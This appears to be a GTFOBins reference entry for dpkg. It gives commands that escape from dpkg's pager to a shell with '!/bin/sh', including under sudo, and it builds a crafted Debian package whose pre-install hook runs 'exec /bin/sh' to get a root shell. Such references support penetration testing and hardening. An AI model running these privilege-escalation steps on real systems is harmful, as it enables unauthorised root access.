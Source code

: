 functions:
  shell:
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        dpkg -l
        !/bin/sh
  sudo:
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        sudo dpkg -l
        !/bin/sh
    - description: |
        It runs an interactive shell using a specially crafted Debian package. Generate it with [fpm](https://github.com/jordansissel/fpm) and upload it to the target.
        ```
        TF=$(mktemp -d)
        echo 'exec /bin/sh' > $TF/x.sh
        fpm -n x -s dir -t deb -a all --before-install $TF/x.sh $TF
        ```
      code: sudo dpkg -i x_1.0_all.deb
---
